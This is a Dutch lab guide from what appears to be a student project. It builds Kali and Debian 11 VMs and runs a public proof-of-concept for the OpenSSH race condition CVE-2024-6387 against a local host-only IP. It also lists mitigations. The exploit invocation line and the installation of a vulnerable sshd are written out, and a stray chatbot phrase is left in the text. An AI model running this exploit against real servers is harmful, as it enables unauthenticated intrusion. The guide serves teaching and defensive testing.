

# Handleiding: Threat `CVE-2024-6387` Uittesten

Deze handleiding beschrijft hoe je de kwetsbaarheid `CVE-2024-6387` kunt uittesten in een kritieke Debian-omgeving (32bit versie 11 Bullseye), die wordt aangevallen vanaf een Kali Linux-machine. Beide virtuele machines (VM’s) worden opgestart via `VBoxManage`, en de benodigde scripts worden automatisch geïnstalleerd via PowerShell-scripts.

---

## 0. Voor het stappenplan

1. Clone de github-repo op: `https://github.com/JoranVanGoethem/NPE-Cybersecurity`
2. Voer in deze repository het stappenplan uit, hierin vind u ook de nieuwste handleiding en extra informatie over de aanval. Daarnaast staan hier ook de meest recente scripts in voor het testen van deze aanval.

## 1. Stappenplan

### 1.1 VM’s Aanmaken

1. **Download de benodigde VDI-bestanden**:

   - **Kali Linux**: [Kali.vdi](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2024.4/64bit.7z/download)
   - **Debian 11 Bullseye**: [Debian.vdi](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/32bit.7z/download)

   

   
   

2. **extract de zip files**

   - extract Kali in de locatie: `/vdi-files/Kali`
   - het pad noemt: `/vdi-files/64bit/64bit/Kali Linux 2024.4 (64bit).vdi`

   - extract Debian in de locatie: `/vdi-files/Debian`
   - het pad noemt: `/vdi-files/32bit/32bit/Debian 11 (32bit).vdi`


   

3. **Pas de `Build-VM.sh` aan INDIEN vorige stap niet gevolgd**:

   - Vervang `DEBIAN_VDI_PATH=""` met:

     ```bash
     DEBIAN_VDI_PATH="/jouw/pad/naar/Debian.vdi"
     ```

   - Vervang `KALI_VDI_PATH=""` met:

     ```bash
     KALI_VDI_PATH="/jouw/pad/naar/Kali.vdi"
     ```

   

4. **Voeg VBoxManage toe aan de terminal**

   - voer het commando: `export PATH=$PATH:"/c/Program Files/Oracle/VirtualBox"` uit

   

5. **Voer het script `Build-VM.sh` uit.**

   - open een git bash terminal in de map `/src/VM-Scripts/`
   - Voer dit commando uit om kali & Debian aan te maken: `./Build-VM.sh`
   - De virtuele machines worden aangemaakt in VirtualBox.

   


6. **start de VM's**

   - open virtualbox en start beide VM's

   

7. **Controleer of de VM's correct zijn opgestart** via de VirtualBox GUI of via:

   ```bash
   VBoxManage list runningvms
   ```

   

8. **Log in op de VM's**

   - Log in met het wachtwoord: `osboxes.org` op de kali VM
   - Log in met het wachtwoord: `osboxes.org` op de Debian VM

   
   
---

<!-- ------------------------[AANVAL]------------------------------------------------------- -->

### 1.2 Installatie van OpenSSH 8.5p1 op Debian

1. **Maak een SSH-verbinding met de Debian VM:**

   ```bash
   ssh -p 2222 osboxes@127.0.0.1

   # wachtwoord = osboxes.org
   ```

   

2. **Maak het install script aan:**
   ```bash
   nano install_openssh_8.5p1.sh
   ```
   

3. **Maak het script uitvoerbaar en voer het uit:**
   ```bash
   chmod +x install_openssh_8.5p1.sh
   sudo ./install_openssh_8.5p1.sh
   ```
   Na het uitvoeren moet je onderstaande afbeelding verkrijgen. Ook kun je controleren of de juiste versie van OpenSSH is geïnstalleerd.
   
   Sluit hier de SSH-verbinding met Debian zodat poort 22 niet bezet is tijdens de aanval.

---


### 1.3 Aanval Uitvoeren vanuit Kali op de Debian VM

1. **Test de verbinding tussen Kali en Debian.**

   ```bash
   ping 192.168.56.101
   ```

   

2. **Start sshd in debugmodus (voor live logging tijdens aanval):**

   ```bash
   sudo /usr/sbin/sshd -ddd
   ```

   

   Als je een fout zou krijgen zoals: `Bind to port 22 failed: Address already in use`
   Stop dan de actieve SSH-service:

   ```bash
   sudo systemctl stop ssh
   sudo systemctl disable ssh
   ```

   Na het uitvoeren van deze commando's zou alles correct moeten verlopen.

3. **Voer de exploit uit** 

   op de doelmachine via netwerkinterface eth1 worden met 200 gelijktijdige verbindingen geconecteerd om de race condition te triggeren.

   ```bash
   python3 CVE-2024-6387.py exploit -T 192.168.56.101 -p 22 -n eth1 -s 200
   ```

   

4. **Monitor ondertussen de debug-output in Debian:**

   Let op onderstaande signalen in de debug-output, die wijzen op succesvolle exploitatie.

   - `padding error`
   - `ssh_dispatch_run_fatal`
   - `message authentication code incorrect`
   - `killing privsep child`

   

## 2. Cheatsheet

Handige commando’s en referenties:

| Commando                                                                  | Omschrijving                                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------------------- |
| `ssh -p 2222 osboxes@127.0.0.1`                                           | Maakt verbinding met de Debian VM via poort 2222 (port forwarding)        |
| `nano install_openssh_8.5p1.sh`                                           | Opent een nieuw scriptbestand om OpenSSH 8.5p1 te installeren             |
| `chmod +x install_openssh_8.5p1.sh`                                       | Maakt het script uitvoerbaar                                              |
| `sudo ./install_openssh_8.5p1.sh`                                         | Voert het installatiescript uit als root                                  |
| `sudo /usr/sbin/sshd -ddd`                                                | Start sshd in debugmodus voor live monitoring van de aanval               |
| `sudo systemctl stop ssh && sudo systemctl disable ssh`                   | Stopt en schakelt de standaard SSH-service uit om conflicten te vermijden |
| `ping 192.168.56.101`                                                     | Test de netwerkverbinding vanaf Kali naar Debian                          |
| `python3 CVE-2024-6387.py exploit -T 192.168.56.101 -p 22 -n eth1 -s 200` | Voert de exploit uit vanaf Kali met 200 gelijktijdige verbindingen        |

---
Zeker, hier is een nog duidelijker en verder opgesplitste versie:

---

## 3. Mogelijke gevaren en oplossingen

### 3.1 Gevaren

* **Race condition in OpenSSH**
  Een fout in de `sshd`-component veroorzaakt een race condition die remote code execution zonder authenticatie mogelijk maakt.

* **Volledige roottoegang**
  Aanvallers kunnen hiermee volledige controle over het systeem krijgen.

* **Massale exploitatie**
  De aanval kan automatisch en op grote schaal plaatsvinden, vooral op publiek toegankelijke servers.

* **Moeilijke detectie**
  Door het karakter van de race condition blijven sporen in logbestanden vaak uit, waardoor detectie lastig is.

---

### 3.2 Oplossingen

* **Toegangsbeperking**

  * SSH-toegang beperken tot VPN of specifieke IP-adressen.
  * Firewallregels toepassen om verbindingen te reguleren.

* **Configuratie-aanpassingen**

  * Verlaag `LoginGraceTime` in `sshd_config`.
  * Beperk `MaxStartups` om overbelasting tegen te gaan.

* **Beveiligingsmaatregelen**

  * Gebruik monitoring om verdachte SSH-activiteit te signaleren.
  * Activeer SELinux of AppArmor voor extra systeembeveiliging.
  * Zet fail2ban in om brute-force aanvallen te blokkeren.

* **Voorbereiding en beheer**

  * Maak regelmatige back-ups en sla deze extern op.
  * Gebruik een extern logging systeem (SIEM) voor analyse en detectie.
  * Automatiseer patchbeheer om updates snel toe te passen.

* **Strategische aanpak**

  * Implementeer een Zero Trust beveiligingsmodel voor een gelaagde verdediging.

---

## 4. Samenvatting

Deze handleiding beschrijft het opzetten en testen van de kwetsbaarheid **CVE-2024-6387** op een Debian 11 (32-bit) VM, aangevallen vanuit een Kali Linux VM. Het doel is om de race condition in OpenSSH 8.5p1 te demonstreren.

### 4.1 Aanmaken

1. **Download** de Kali Linux (64-bit) en Debian 11 Bullseye (32-bit) VDI-bestanden van osboxes.org.
2. **Pak** de gedownloade .7z-bestanden uit naar een bekende map, bijvoorbeeld `/vdi-files/Kali/` en `/vdi-files/Debian/`.
3. **Pas** in het script `Build-VM.sh` de paden aan naar de uitgepakte VDI-bestanden.
4. **Zorg** dat `VBoxManage` via de terminal toegankelijk is (voeg het pad toe aan je PATH).
5. **Voer** het script `Build-VM.sh` uit om de VM’s automatisch aan te maken en configureren in VirtualBox.
6. **Start** de VM’s handmatig via de VirtualBox GUI.
7. **Log in** met gebruikersnaam en wachtwoord `osboxes` / `osboxes.org`.

### 4.2 Aanval
- Start beide VM’s (Kali & Debian) in VirtualBox
- Installeer OpenSSH 8.5p1 op Debian via script
- Sluit SSH-verbinding met Debian zodat poort 22 vrij is voor de aanval
- Start `sshd` in debugmodus op Debian
  ```bash
  sudo /usr/sbin/sshd -ddd
  ```
- Voer exploit uit vanaf Kali
  ```bash
  python3 CVE-2024-6387.py exploit -T 192.168.56.101 -p 22 -n eth1 -s 200
  ```
- Observeer in Debian de volgende signalen (debug-output):
  - `padding error`
  - `message authentication code incorrect`
  - `ssh_dispatch_run_fatal`
  - `killing privsep child`

---

## 5. Opmerkingen

- De gebruikte PoC werkt enkel op **32-bit Linux-systemen** met **glibc** en de kwetsbare versie van OpenSSH (8.5p1). De meeste moderne 64-bit systemen zijn hiermee niet kwetsbaar.
- Voor een succesvolle demonstratie is het cruciaal dat `sshd` **manueel wordt gestart** (bijv. met `sshd -ddd`) zodat je live kunt observeren wat er gebeurt.
- Tijdens de aanval mogen er **geen actieve SSH-sessies** zijn, anders kan het exploit-effect (zoals race condition of crash) uitblijven.
- De CVE richt zich voornamelijk op **pre-auth heap corruptie**, met aangepaste payloads zou dit potentieel tot **Remote Code 
Execution** kunnen leiden.

**!!! Deze GitHub-repository is uitsluitend bedoeld voor educatieve doeleinden en mag niet worden gebruikt voor kwaadwillige of illegale activiteiten.**

---

## 6. Makers van het Project

Deze handleiding is gebaseerd op de resources en scripts die beschikbaar zijn op de GitHub-pagina van het project:

- GitHub Repository: [NPE-Cybersecurity](https://github.com/JoranVanGoethem/NPE-Cybersecurity/tree/main)

- Auteurs: Joran Van Goethem, Leander Counye en Vincent Cammaert

---

## 6. Bron van het Python-script

Het Python-script CVE-2024-6387.py is geïnspireerd door de repository van de volgende auteur:

- GitHub Repository: [CVE-2024-6387 Exploit](https://github.com/Karmakstylez/CVE-2024-6387?tab=readme-ov-file)

- Auteur: Karmakstylez
